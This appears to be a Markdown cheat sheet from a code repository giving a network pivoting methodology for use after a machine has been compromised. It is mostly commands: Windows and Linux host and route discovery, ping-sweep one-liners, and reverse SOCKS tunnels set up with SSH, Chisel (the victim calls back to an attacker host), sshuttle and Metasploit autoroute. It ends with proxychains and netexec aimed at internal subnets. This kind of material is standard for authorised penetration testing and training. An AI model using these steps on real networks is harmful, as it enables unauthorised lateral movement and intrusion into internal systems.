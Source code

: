 # Network Pivoting Methodology

## 1) Internal Host Discovery

### In a network, if you root a machine, do these checks:

## Windows

Info about interfaces

    ipconfig /all

Print available routes

    route print

Known hosts on the routing table

    arp -a

Opened ports/services/connections running on the machine

    netstat -ano

DNS Entries

    type C:\WINDOWS\System32\drivers\etc\hosts


And

    ipconfig /displaydns | findstr "Record" | findstr "Name Host"

Ping Sweep Script (You might have to do some guesswork on the subnet we want to discover if we did not find any data)

    (for /L %a IN (1,1,254) DO ping /n 1 /w 1 172.16.2.%a) | find "Reply"

#### Linux

Info about interfaces

    ip a

    ifconfig

Known hosts on the routing table

    arp -a

Opened ports/services/connections running on the machine

    netstat -ano

DNS Entries

    cat /etc/hosts

    cat /etc/resolv.conf

Ping Sweep Script (You might have to do some guesswork on the subnet we want to discover if we did not find any data)

    for i in {1..255};do (ping -c 1 172.16.2.$i | grep "bytes from"|cut -d ' ' -f4|tr -d ':' &);done

### 2) SOCKS Proxy setup

Create reverse proxies to route traffic inside the internal network.

Some tools you can use to do it

1) SSH Dynamic Proxy (Authenticated)

       ssh -D 1080 user@IP
       ssh -D 1080 user@IP -i id_rsa

2) Chisel

#### Attacker machine

        chisel server -p 12345 --reverse

#### Victim rooted machine

        chiseil client ATTACK_IP:12345 R:0.0.0.0:1080:socks 

3) sshuttle (Authenticated)

        sshuttle -r USER@IP subnet

Use the IP machine as a jumpbox to connect to the specific TARGET_IP machine

       sshuttle -r USER@IP TARGET_IP

Key based authentication

        sshuttle -r USER@IP --ssh-cmd "ssh -i id_rsa"  -x COMPROMISED_TARGET_IP subnet

4) Metasploit

Route traffic 

        route add IP SUBNET 

Port forwarding

        portfwd all -l PORT -p PORT -r IP

Autoroute using meterpreter

        run autoroute -s TARGET_SUBNET/MASK

Proxy setup

        use auxiliary/server/socks5

        set SRVHOST 127.0.0.1

        exploit

### 3) Run tools from your attacking machine to internal network

Run any tool you want via proxychains using your setup proxy.

Setup the apropriate type of proxy and port in the master config file of proxychains

        sudo nano /etc/proxychains.conf

If you want to use more proxies, just copy the master config file and change the appropriate values to the corresponding port number

        sudo cp /etc/proxychains.conf .

Now you are ready to pivot within the internal network

#### Example

        proxychains -q netexec smb INTERNAL_SUBNET

OR

        proxychains -q -f ./proxychains_1088.conf netexec smb INTERNAL_SUBNET2

